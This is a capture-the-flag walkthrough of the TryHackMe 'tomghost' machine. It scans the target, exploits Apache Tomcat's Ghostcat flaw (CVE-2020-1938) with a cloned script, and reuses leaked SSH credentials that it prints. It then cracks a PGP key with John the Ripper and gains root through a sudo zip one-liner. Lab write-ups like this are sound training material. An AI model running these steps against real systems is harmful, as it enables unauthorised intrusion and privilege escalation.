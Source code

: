 tomghost
===

### environment
KALI Linux ip 10.10.214.53

TARGET 10.10.94.155
###  Flags

- [x] Compromise this machine and obtain user.txt

First step, we namp scan which port are open and vulnerability

```
nmap -sV -sC 10.10.94.155
```

We know port 22 53 8009 8080 are open

![image](https://user-images.githubusercontent.com/67756786/194012149-caca49b0-a4a8-423f-a47e-501d61940d3d.png)

Now we visit 8080 page, and enumerate it.

![image](https://user-images.githubusercontent.com/67756786/194012721-d4a3b640-9642-47dc-86a5-e91f0f0d3ff6.png)

Enumerate web page

![image](https://user-images.githubusercontent.com/67756786/194013210-82d401e5-fba0-4457-9a46-6133945d398d.png)

In short , we got Apache Tomcat V9.0.30 and /examples. These two points seems to be injection.

Now we search vulnerability on google.

Tomcat can be RCE if that is old version.

V9.0.30 is't fixex version, we can use this vulnerability.
![image](https://user-images.githubusercontent.com/67756786/194015465-89303821-d433-475b-8198-72e99c2d1357.png)

/examples doesn't seem to have vulnerability

https://saucer-man.com/information_security/507.html

Now we git clone RCE python script, and excute this.

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git
python2.7 CVE-2020-1938.py 10.10.94.155 -p 8009 -f WEB-INF/web.xml
```
We can use this informaion to connet ssh .(skyfuck:8730281lkjlkjdqlksalks)
![image](https://user-images.githubusercontent.com/67756786/194019203-449285bb-0a0d-4b72-9ad3-88cc617b836f.png)

```
ssh skyfuck@10.10.94.155
```

We got first shell, and then confirm are we sudoer.

skyfuck should common user.

![image](https://user-images.githubusercontent.com/67756786/194020834-152a82e3-f7a4-4948-ae0d-aca7634df2ed.png)

Into /home dictionary confirm which user on machine.

![image](https://user-images.githubusercontent.com/67756786/194021167-9a11ae0d-4f72-4065-8ed9-91dab0f90d34.png)

Into merlin dictionary , we got user.txt.
![image](https://user-images.githubusercontent.com/67756786/194021208-7ed24479-6a0c-499b-a945-3680d1e164ec.png)

Into skyfuck dictionary, we got one asc file and pgp file.

![image](https://user-images.githubusercontent.com/67756786/194021490-89f47a28-dfec-4722-9f39-77986505bee9.png)


- [x] Escalate privileges and obtain root.txt

Scp both file.
```
scp tryhackme.asc root@10.10.214.53:~/tryhackme.asc
scp credential.pgp root@10.10.214.53:~/credential.pgp
```
check tryhackme.asc content, we know this file is PGP private key.

![image](https://user-images.githubusercontent.com/67756786/194023131-9d9ffcea-8bef-4be5-9dca-5489fd684eb6.png)

Now we can use john to crack.

```
gpg2john tryhackme.asc > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Now we have gpg private key to crack credential.pgp
![image](https://user-images.githubusercontent.com/67756786/194025726-97709d6a-db3f-4287-bea7-7178bf98bdcd.png)

import private key, first.
```
gpg --import tryhackme.asc
```
![image](https://user-images.githubusercontent.com/67756786/194026019-301bf640-69a3-4209-92ce-e986bd061c99.png)

```
gpg --decrypt credential.pgp
```

![image](https://user-images.githubusercontent.com/67756786/194026271-29a81f59-490b-4c2f-bb94-b25a84bb160e.png)


Into skyfuck ssh and chanche user to merlin.

Check merlin privillege

![image](https://user-images.githubusercontent.com/67756786/194026946-b02f54fc-be49-46ce-8f67-a7b40cb9d0d9.png)

GTFOBins has teaching how to privilege escalation from zip

![image](https://user-images.githubusercontent.com/67756786/194027275-cd1e88a8-e6a4-4f46-87fd-7b0e829e6afa.png)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
![image](https://user-images.githubusercontent.com/67756786/194027423-5098d5d6-9fc3-487c-a7f9-12d2a82543e5.png)

Finally, we got root.txt
![image](https://user-images.githubusercontent.com/67756786/194027634-b44cde17-4f97-40a2-a34d-ef48351b7c00.png)


